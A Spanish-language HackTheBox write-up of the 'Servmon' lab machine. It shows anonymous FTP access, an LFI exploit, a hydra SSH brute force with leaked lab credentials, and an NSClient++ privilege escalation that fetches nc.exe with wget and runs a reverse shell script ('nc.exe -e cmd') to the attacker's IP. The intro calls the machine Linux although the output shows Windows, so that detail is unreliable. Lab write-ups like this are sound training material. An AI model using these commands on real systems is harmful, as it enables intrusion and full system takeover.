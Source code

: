 ```yaml
---
title: HackTheBox - Servmon
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakeage', 'RCE Webmin (CVE-2019-12840)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Servmon/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Servmon Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakeage, RCE Webmin (CVE-2019-12840)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Servmon/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p21,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Servmon/02-versions.png)

* Puntos principales:
    + [x] Podemos acceder de forma anónima al servicio FTP.
    + [x] Tenemos dos sitios web: **HTTP - 80 | HTTPS - 8443**
    + [x] El servicio SSH se encuentra habilitado

Inspeccionamos el servicio **FTP** en buscar de cualquier información y la descargamos

```bash
❯  ftp 10.10.10.184
Name (10.10.10.184:kali): anonymous
ftp> dir
02-28-22  07:35PM       <DIR>          Users
ftp> cd Users
ftp> dir
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
ftp> cd Nadine
02-28-22  07:36PM                  168 Confidential.txt
ftp> get Confidential.txt
ftp> exit

❯ cat Confidential.txt

Nathan,
I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
Regards
Nadine
```

Aquí nos mencionan que existe un archivo **passwords.txt** en el escritorio del usuario nathan.

c. Al buscar por vulnerabilidades del servicio **HTTP** llegamos a un [LFI](https://www.exploit-db.com/exploits/48311)

![](/assets/images/HTB/Easy/Servmon/03-lfi.png)

Una vez obtenemos el fichero antes mencionado, hacemos fuerza bruta en el servicio **SSH** con hydra a los dos usuarios (nathan y nadine)

```bash
❯ hydra -L users.txt -P passwords.txt ssh://10.10.10.184 -t 4

[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
```

### Escalada de Privilegios 💹

a. Al enumerar el sistema, encontramos el directorio 'C:\Program Files\NSClient++' y si buscamos vulnerabilidades asociadas, encontramos una para [escalación de privilegios](https://www.exploit-db.com/exploits/46802)

Aquí usan el servicio **https** del puerto `8443`, y para llevar acabo este exploit debemos tener en cuenta múltiples puntos

1. Obtenemos la contraseña actual

    ```bash
    nadine@SERVMON C:\Program Files\NSClient++>.\nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT
    ```

2. De primeras nos seremos capaces de acceder al servicio **NSClient++** 

    ![](/assets/images/HTB/Easy/Servmon/04-error.png)

    > Para solucionar esto debemos realizar Local Port Forwarding: `sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@<IP Servmon> -L 8443:127.0.0.1:8443`
    {: .prompt-tip }


3. Ahora, debemos descargarnos [nc](https://github.com/int0x33/nc.exe/blob/master/nc64.exe) y creamos un fichero .bat para entablar una reverse shell

    ```bat
    @echo off
    C:\temp\nc.exe -e cmd <tun0 IP> 443
    ```

    * Transferimos estos ficheros al directorio **`C:\temp`**

        ```cmd
        ❯ python -m http.server 80
        -----------------------------------------------------------------
        nadine@SERVMON C:\>mkdir temp
        nadine@SERVMON C:\temp>powershell
        PS C:\temp> wget http://<tun0 IP>/nc.exe -OutFile "./nc.exe"
        PS C:\temp> wget http://<tun0 IP>/test.bat -OutFile "./test.bat"
        ```

4. Nos autenticamos en el servicio NSClient++ y lo configuramos para ejecutar el script **test.bat**

    ![](/assets/images/HTB/Easy/Servmon/05-script.png)

    * Nos ponemos en escucha con **nc**, reiniciamos NSClient++ y luego damos clic en el apartado `Queries`

> En caso de no recibir la reverse shell reiniciamos la **Máquina Servmon**
{: .prompt-warning }

Después de todo este proceso recibimos la reverse shell

```bash
❯ nc -lvnp 443                                                                                            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.184] 50986
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
nt authority\system
```